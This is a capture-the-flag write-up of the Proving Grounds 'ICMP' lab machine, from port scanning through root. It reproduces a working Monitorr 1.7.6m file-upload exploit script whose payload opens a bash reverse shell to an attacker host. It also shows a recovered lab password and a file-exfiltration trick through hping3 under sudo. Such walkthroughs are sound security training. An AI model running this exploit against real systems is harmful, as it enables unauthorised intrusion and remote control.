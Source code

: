 # ICMP

## Background

> Feel free to ping me 

- Author: Fortunato 'foxlox' Lodari

- Released on: Aug 25, 2022

- Difficulty: Intermediate

- Overall difficulty for me: Easy
    - Initial foothold: Very easy
    - Privilege Escalation: Medium

# Service Enumeration

**Rustscan Result:**

As usual, scan the machine for open ports via `rustscan`!

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/ICMP/images/a1.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/ICMP/images/a2.png)

According to `rustscan` result, we have 2 ports are opened:

Ports Open        | Service
------------------|------------------------
22                | OpenSSH 7.9p1 Debian
80                | Apache httpd 2.4.38

## HTTP on Port 80

Always enumerate HTTP first, as it has the largest attack vectors.

**http://192.168.129.218/mon/:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/ICMP/images/a3.png)

Found `Monitorr 1.7.6m`.

**Searchsploit Result:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/ICMP/images/a4.png)

Found 2 exploits!

# Initial Foothold

**Remote Code Execution (`48980.py`):**

- We can mirror the exploit to see what is it:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/ICMP/images/a5.png)

**48980.py:**
```py
import requests
import os
import sys

if len (sys.argv) != 4:
	print ("specify params in format: python " + sys.argv[0] + " target_url lhost lport")
else:
    url = sys.argv[1] + "/assets/php/upload.php"
    headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:82.0) Gecko/20100101 Firefox/82.0", "Accept": "text/plain, */*; q=0.01", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "X-Requested-With": "XMLHttpRequest", "Content-Type": "multipart/form-data; boundary=---------------------------31046105003900160576454225745", "Origin": sys.argv[1], "Connection": "close", "Referer": sys.argv[1]}

    data = "-----------------------------31046105003900160576454225745\r\nContent-Disposition: form-data; name=\"fileToUpload\"; filename=\"she_ll.php\"\r\nContent-Type: image/gif\r\n\r\nGIF89a213213123<?php shell_exec(\"/bin/bash -c 'bash -i >& /dev/tcp/"+sys.argv[2] +"/" + sys.argv[3] + " 0>&1'\");\r\n\r\n-----------------------------31046105003900160576454225745--\r\n"

    requests.post(url, headers=headers, data=data)

    print ("A shell script should be uploaded. Now we try to execute it")
    url = sys.argv[1] + "/assets/data/usrimg/she_ll.php"
    headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:82.0) Gecko/20100101 Firefox/82.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Connection": "close", "Upgrade-Insecure-Requests": "1"}
    requests.get(url, headers=headers)
```

The exploit doing a POST request in `/assets/php/upload.php`, and trying to upload a PHP reverse shell called `she_ll.php`. If uploaded, it'll trigger the PHP reverse shell in `/assets/data/usrimg/she_ll.php`.

**Let's setup a `nc` listener and run the exploit!**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/ICMP/images/a6.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/ICMP/images/a7.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/ICMP/images/a8.png)

I'm `www-data`!

**local.txt:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/ICMP/images/a9.png)

**Stable Shell via `socat`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/ICMP/images/a10.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/ICMP/images/a11.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/ICMP/images/a12.png)

# Privilege Escalation

## www-data to fox

Something interesting in `fox`'s home directory?

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/ICMP/images/a13.png)

Also, I found a misconfigured file in `/root`:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/ICMP/images/a14.png)

It's **world-readable**!

**Normal `/root` permission:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/ICMP/images/a15.png)

Let's check it out!

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/ICMP/images/a16.png)

Can I read his private SSH key?

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/ICMP/images/a17.png)

Nope. Let's go back to `fox`'s home directory.

In his home directory, we also can see there is a directory called `devel`. Plus the `reminder` text file, makes me feel like `crypt.php` is inside the `devel` directory:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/ICMP/images/a18.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/ICMP/images/a19.png)

```php
<?php
echo crypt('BUHNIJMONIBUVCYTTYVGBUHJNI','da');
?>
```

Maybe the `BUHNIJMONIBUVCYTTYVGBUHJNI` is user `fox`'s password??

- Username:fox
- Password:BUHNIJMONIBUVCYTTYVGBUHJNI

Let's **Switch User** to `fox`!

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/ICMP/images/a20.png)

And we're `fox`!

## fox to root

**Sudo Permission:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/ICMP/images/a21.png)

As we can see, there are 2 commands we can run as root, and the first command could escalate our privilege to root, as it uses a wildcard:

```bash
/usr/sbin/hping3 --icmp *
/usr/bin/killall hping3
```

Since we must use the ICMP mode, we can't spawn a shell.

BUT, according to a [blog back in 2008](https://www.codebelay.com/blog/2008/10/09/sending-files-with-hping3/), we can use `hping3` to transfer files to other machine. We can try to send root's private SSH key that we've just found.

**To do so, we'll:**

- Setup a `hping3` listener on the **first SSH session**:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/ICMP/images/a22.png)

- Transfer root's private SSH key on the **second SSH session**:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/ICMP/images/a23.png)

- Captured the private SSH key on the **first SSH session**:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/ICMP/images/a24.png)

Let's copy and paste it to our attacker machine, and `ssh` into root:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/ICMP/images/a25.png)

We're root! :D

# Rooted

**proof.txt:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/ICMP/images/a26.png)

# Conclusion

What we've learned:

1. Remote Code Execution in Monitorr 1.7.6m
2. Privilege Escalation via Found Credentials From `crypt.php` in `/home/fox/devel/`
3. Privilege Escalation via Misconfigured `sudo` Permission to `hping3`